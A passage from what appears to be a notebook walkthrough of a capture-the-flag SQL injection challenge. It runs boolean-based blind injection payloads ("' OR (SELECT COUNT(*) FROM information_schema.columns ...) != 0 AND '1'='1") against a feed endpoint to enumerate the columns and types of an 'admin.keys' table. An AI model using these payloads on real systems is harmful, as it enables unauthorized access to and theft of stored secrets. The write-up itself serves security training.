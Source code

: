 


    (True, 'Feed with same title already exists!', <Response [500]>)



Next, we should find out the names of columns and their datatypes inside the `keys` table:


```python
# No column called "secret" in "admin.keys"
query_challenge_union(
    "information_schema.columns",
    "table_name LIKE 'keys' AND table_schema LIKE 'admin' AND column_name LIKE 'secret'"
)
```




    (False,
     "Failed to add ' OR (SELECT COUNT(*) FROM information_schema.columns WHERE table_name LIKE 'keys' AND table_schema LIKE 'admin' AND column_name LIKE 'secret') != 0 AND '1'='1; no new feeds allowed!",
     <Response [200]>)




```python
# Found column called "key" in "admin.keys"
query_challenge_union(
    "information_schema.columns",
    "table_name LIKE 'keys' AND table_schema LIKE 'admin' AND column_name LIKE 'key'"
)
```




    (True, 'Feed with same title already exists!', <Response [500]>)




```python
# Column "key" in "admin.keys" is not of type TEXT
query_challenge_union(
    "information_schema.columns",
    "table_name LIKE 'keys' AND table_schema LIKE 'admin' AND column_name LIKE 'key' AND data_type LIKE 'TEXT'"
)
```




    (False,
     "Failed to add ' OR (SELECT COUNT(*) FROM information_schema.columns WHERE table_name LIKE 'keys' AND table_schema LIKE 'admin' AND column_name LIKE 'key' AND data_type LIKE 'TEXT') != 0 AND '1'='1; no new feeds allowed!",
     <Response [200]>)




```python
# Column "key" in "admin.keys" is type VARCHAR
query_challenge_union(
    "information_schema.columns",
    "table_name LIKE 'keys' AND table_schema LIKE 'admin' AND column_name LIKE 'key' AND data_type LIKE 'VARCHAR'"
)
```
